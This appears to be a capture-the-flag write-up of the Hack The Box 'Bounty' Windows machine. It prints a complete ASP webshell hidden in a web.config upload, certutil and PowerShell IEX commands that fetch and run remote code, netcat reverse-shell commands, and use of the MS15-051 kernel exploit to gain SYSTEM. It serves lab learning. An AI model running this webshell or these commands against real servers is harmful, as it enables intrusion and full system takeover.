

## Overview

Bounty is a Windows box running IIS and ASP.NET. There is a web page that only allowed image files to be uploaded but I was able to bypass the file restriction by uploading a web.config with embedded asp code in order to get the initial foothold. Running Sherlock I determined that it was vulnerable to MS15-051 exploits improper object handling in the win32k.sys kernel mode driver to get a shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows Server 2008 R2 Datacenter
* Microsoft IIS 7.5

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.93 -oN /mnt/data/boxes/bounty/_full_tcp_nmap.txt 
```
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx -t 35
```

> The nmap scan shows this is a Windows server running IIS which typically run ASP.NET pages (asp/aspx). This isn't always the case but I decided to start by specifying those two extensions.


* /UploadedFiles/
* /transfer.aspx

## Steps (User)

The gobuster scan provided two results: transfer.aspx and Uploadedfiles. The first provided a mechanism to upload files and the second appeared to be where those files are uploaded to. Starting with the transfer page; image files can be uploaded but I was not able to upload .asp, .aspx, .cer, .asa, .asax...


I was able to view the philociraptor image that was uploaded.


After an internet search I came across an article by [Soroush](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) which showed how to use the web.config file to run asp classic code. I combined Soroush's template with the one found [here](https://github.com/tennc/webshell/blob/master/asp/webshell.asp) to create the web.config. The web.config now had asp code that would allow me to run commands.

> Web.config is a configuration file that is used to customize the way a site or directory behaves on a server

**web.config**

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```

I uploaded the modified config file via the transfer.aspx page and browsed to http://10.10.10.93/uploadedfiles/web.config


> I had to repeat the upload multiple times as the file kept getting removed. To streamline this process I captured the file upload so I could easily rerun the web request to upload the file. Additional steps needed to execute commands via the webshell once it was uploaded were also done this way.

Since I I now had command execution, I prepared my machine to transfer files by starting a python http server and started a netcat listener (rlwrap nc -lvnp 4200)

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

Via the webshell, the certutil command was used to copy the file http to the target box. I copied it to the c:\windows\temp folder to prevent it from being automatically removed. 

```
certutil -urlcache -split -f http://10.10.14.22/nc.exe c:\windows\temp\nc.exe
```

With netcat on the box I was able to run a command to create a reverse shell.

```
c:\windows\temp\nc.exe -e cmd 10.10.14.22 4200
```


## Steps (root/system)

Not seeing any hotfixes applied after running sysinfo I proceeded to run sherlock to look for exploits. First I copied sherlock to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing Find-AllVuns function

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.22/Sherlock.ps1');Find-AllVulns"
```




This box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server.

```
python3 -m http.server 80
```

Certutil was used to download ms15-051x64.exe to the c:\windows\temp directory.

```
certutil -urlcache -split -f http://10.10.14.22/ms15-051x64.exe c:\windows\temp\ms15-051x64.exe
```

I started a netcat listener on my box, specifiying a different port (rlwrap nc -lvnp 4201). 

```
rlwrap nc -lvnp 4201
```

With the exploit on the target system I used it to create a reverse shell and received a callback as user 'nt authority\system'.

```
c:\windows\temp\ms15-051x64.exe -e cmd.exe 10.10.14.16 4201
```


